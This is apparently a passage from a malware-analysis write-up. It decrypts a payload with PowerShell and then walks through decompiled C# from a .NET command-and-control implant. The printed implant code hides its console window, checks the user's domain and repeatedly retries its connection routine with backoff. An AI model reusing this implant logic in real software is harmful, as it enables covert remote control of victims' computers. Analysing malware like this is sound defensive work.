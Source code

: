 ``` powershell
{
    $fsPlain.Write($buffer, 0, $read)
    $read = $cs.Read($buffer, 0, $buffer.Length)
}
$cs.Close()
$fsCipher.Close()
$fsPlain.Close()

```

We can verify that the file was decrypted successfully by checking with file:

```sh
file out.bin
out.bin: writable, executable, regular file, no read permission
```

## C2 implant analysis with ILSpy

The binary is a .Net executable, so we proceed by decompiling with ILSpy


The entry point just call `Sharp()`:

```csharp
public static void Main()
	{
		Sharp(0L);
	}
```

`Sharp()` setups the window and calls `primer()`
```csharp
public static void Sharp(long baseAddr = 0L)
	{
		DllBaseAddress = new IntPtr(baseAddr);
		if (!string.IsNullOrEmpty("") && !Environment.UserDomainName.ToLower().Contains("".ToLower()))
		{
			return;
		}
		IntPtr consoleWindow = GetConsoleWindow();
		ShowWindow(consoleWindow, 0);
		AUnTrCrts();
		int num = 30;
		int num2 = 60000;
		ManualResetEvent manualResetEvent = new ManualResetEvent(initialState: false);
		while (true && num > 0)
		{
			try
			{
				primer();
			}
			catch
			{
				num--;
				manualResetEvent.WaitOne(num2);
				num2 *= 2;
				continue;
			}
			break;
		}
		IntPtr currentThread = GetCurrentThread();
		TerminateThread(currentThread, 0u);
	}
```